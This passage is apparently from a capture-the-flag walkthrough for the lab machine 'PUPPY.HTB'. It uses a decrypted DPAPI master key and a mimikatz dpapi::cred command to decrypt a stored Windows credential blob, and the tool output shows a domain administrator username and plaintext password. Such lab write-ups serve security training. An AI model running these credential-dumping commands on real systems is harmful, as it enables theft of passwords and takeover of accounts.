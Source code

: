 The masterkey is decrypted:
`d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84`

Now I can decrypt this blob:

```
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

I specify the blob path and the masterkey value.

```
.\mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84" "exit"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

 <SNIP>
 
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000c8 - 200
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 3/8/2025 3:54:29 PM
  unkFlagsOrSize : 00000030 - 48
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=PUPPY.HTB
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : steph.cooper_adm
  CredentialBlob : FivethChipOnItsWay2025!
  Attributes     : 0

mimikatz(commandline) # exit
Bye!
```
